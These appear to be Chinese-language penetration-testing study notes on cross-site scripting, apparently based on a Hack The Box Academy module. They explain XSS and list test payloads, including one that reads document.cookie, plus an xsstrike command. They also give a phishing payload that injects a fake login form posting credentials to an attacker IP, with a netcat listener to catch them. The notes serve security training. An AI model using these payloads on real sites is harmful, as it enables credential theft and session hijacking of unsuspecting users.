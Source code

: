 # XSS

<details>

<summary>什麼是XSS</summary>

典型的 Web 應用程式透過從後端伺服器接收 HTML 程式碼並將其呈現在客戶端網路瀏覽器上來運作。當存在漏洞的 Web 應用程式未能正確清理使用者輸入時，惡意使用者可以在輸入欄位（例如評論/回應）中註入額外的 JavaScript 程式碼，因此一旦其他使用者查看同一頁面，他們就會在不知情的情況下執行惡意 JavaScript 程式碼。



XSS 漏洞僅在客戶端執行，因此不會直接影響後端伺服器。它們只能影響執行漏洞的使用者。 XSS 漏洞對後端伺服器的直接影響可能相對較低，但它們在 Web 應用程式中非常常見，因此這相當於中等風險（`low impact + high probability = medium risk`），我們應該始終嘗試`reduce`透過偵測、修復和主動預防這些類型的漏洞來降低風險。

\
由於 XSS 攻擊在瀏覽器內執行 JavaScript 程式碼，因此它們僅限於瀏覽器的 JS 引擎（即 Chrome 中的 V8）。它們無法執行系統範圍的 JavaScript 程式碼來執行類似系統層級程式碼執行的操作。在現代瀏覽器中，它們也被限制在易受攻擊的網站的同一網域內。儘管如此，如上所述，能夠在使用者瀏覽器中執行 JavaScript 仍然可能導致各種各樣的攻擊。除此之外，如果熟練的研究人員發現 Web 瀏覽器中存在二進位漏洞（例如 Chrome 中的堆溢出），他們可以利用 XSS 漏洞在目標瀏覽器上執行 JavaScript 漏洞，最終突破瀏覽器的沙盒並在使用者的機器上執行程式碼。



幾乎所有現代 Web 應用程式中都可能發現 XSS 漏洞，並且在過去二十年中一直被積極利用。一個著名的 XSS 範例是[Samy Worm](https://en.wikipedia.org/wiki/Samy_\(computer_worm\)) ，它是一種基於瀏覽器的蠕蟲，利用了 2005 年社交網站 MySpace 中的儲存型 XSS 漏洞。訊息本身也包含相同的 JavaScript 負載，以便在其他人查看時重新發布相同的訊息。一天之內，有超過一百萬的 MySpace 用戶在他們的頁面上發布了這則訊息。儘管這個特定的負載沒有造成任何實際危害，但該漏洞可能被用於更邪惡的目的，例如竊取用戶的信用卡資訊、在瀏覽器上安裝鍵盤記錄器，甚至利用用戶網絡瀏覽器中的二進制漏洞（這在當時的網絡瀏覽器中更為常見）。



時至今日，即使是最著名的 Web 應用程式也存在可被利用的 XSS 漏洞。就連Google的搜尋引擎頁面，其搜尋欄也存在多個XSS漏洞，最近的一次是在[2019年](https://www.acunetix.com/blog/web-security-zone/mutation-xss-in-google-search/)，XML庫中發現了一個XSS漏洞。此外，網路上最常使用的 Web 伺服器 Apache 伺服器曾被揭露有[XSS 漏洞](https://blogs.apache.org/infra/entry/apache_org_04_09_2010)，有人正積極利用該漏洞竊取某些公司的使用者密碼。所有這些都告訴我們，應該認真對待 XSS 漏洞，並投入大量精力去檢測和預防它們。

</details>

## <mark style="color:red;">**1.發現點**</mark>&#x20;

**評論區、搜尋框、URL參數、HTTP標頭等 (Something you input that will show out! )**&#x20;

## <mark style="color:red;">**2.測試Payload**</mark>

```
">
<script>alert(document.cookie)</script>
<img src="" onerror=alert(window.origin)>
```

## <mark style="color:red;">**3.bypass技巧**</mark>

```sh
python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test" 
```

## <mark style="color:red;">4.濫用</mark>

網路釣魚 ,會話劫持&#x20;

### <mark style="color:red;">5. Manual Discovery  手動發現</mark>

當涉及手動 XSS 發現時，尋找 XSS 漏洞的難度取決於 Web 應用程式的安全性等級。通常可以透過測試各種 XSS 負載來發現基本的 XSS 漏洞，但識別進階 XSS 漏洞需要高階程式碼審查技能。

尋找 XSS 漏洞的最基本方法是針對給定網頁中的輸入欄位手動測試各種 XSS 負載。我們可以在網路上找到大量的 XSS 負載列表，例如[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)上的列表或[PayloadBox](https://github.com/payloadbox/xss-payload-list)中的列表。然後，我們可以開始逐一測試這些有效載荷，方法是複製每個有效載荷並將其添加到我們的表單中，並查看是否會彈出警告框。\
檢測 XSS 漏洞最可靠的方法是手動程式碼審查，它應該涵蓋後端和前端程式碼。如果我們準確地了解我們的輸入是如何被處理的，直到它到達網頁瀏覽器，我們就可以編寫一個可以高度自信地工作的自訂有效負載。

對於更常見的 Web 應用程序，我們不太可能透過有效載荷清單或 XSS 工具發現任何 XSS 漏洞。這是因為此類 Web 應用程式的開發人員可能會透過漏洞評估工具運行他們的應用程序，然後在發布之前修補任何已發現的漏洞。對於這種情況，手動程式碼審查可能會發現未被發現的 XSS 漏洞，這些漏洞可能會在常見的 Web 應用程式的公開發布後繼續存在。這些也是超出了本模組範圍的先進技術。不過，如果您有興趣學習它們，[安全編碼 101：JavaScript](https://academy.hackthebox.com/course/preview/secure-coding-101-javascript)和[白盒滲透測試 101：命令注入](https://academy.hackthebox.com/course/preview/whitebox-pentesting-101-command-injection)模組會全面涵蓋這個主題。

## <mark style="color:red;">6.網路釣魚</mark>

接下來，我們應該準備我們的 XSS 程式碼並在易受攻擊的表單上進行測試。要將 HTML 程式碼寫入易受攻擊的頁面，我們可以使用 JavaScript 函數`document.write()` ，並在我們之前在 XSS 發現步驟中找到的 XSS 負載中使用它。一旦我們將 HTML 程式碼精簡為一行並將其添加到`write`函數中，最終的 JavaScript 程式碼應如下所示：



```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

<mark style="color:red;">7.憑證竊取</mark>\



```
PikachuN@htb[/htb]$ sudo nc -lvnp 80
```

```shell-session
listening on [any] 80 ...
```

現在，讓我們嘗試使用憑證`test:test` ，並檢查我們得到的`netcat`輸出（ `don't forget to replace OUR_IP in the XSS payload with your actual IP` ）：

<mark style="color:red;">8.Skills Assessment</mark>\
\
[https://academy.hackthebox.com/module/103/section/1011](https://academy.hackthebox.com/module/103/section/1011)
----------------------------------------------------------------------------------------------------------------
